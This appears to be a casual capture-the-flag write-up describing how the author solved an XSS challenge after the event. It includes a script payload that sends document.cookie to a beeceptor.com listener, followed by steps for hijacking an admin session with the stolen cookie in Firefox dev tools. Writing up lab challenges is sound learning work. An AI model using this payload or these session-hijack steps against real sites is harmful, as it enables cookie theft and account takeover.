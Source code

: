 On this challenge i did some cheating
I have come across some other xss challenges like last years google ctf. I know how xss works but most of the time I just test if i can get the xss to work with a simple
alert("hi"). In the writeups before I have seen people set up severs to connect to trough the xss

As I could not do these challenges during the accual CTF time and did them in the week/weekend after I could just lookup the flag and check if my xss would hve been correct.
I was lucky tough. The writeup i read started of by setting up a mock api at:
https://beeceptor.com

Awesome! I had not seen the used xss or the flag so I could try it out myself and see if i can get something to come into my mock api.
So i tested my xss:
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

and yes i get the incomming flag on the beeceptor page! awesome no need to set up a whole server to listen to connections :D

I tried putting the session cookie i also recieved in the cookies of my firefox browser and go to the admin page:
open dev tools of firefox,
go to the storage tab
click the + to add a cookie
change the name to session
and the value to the gotten session cookie HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV 

This page shows the same flag as i already got from the cookie field so seems like there is no second flag in this challenge.



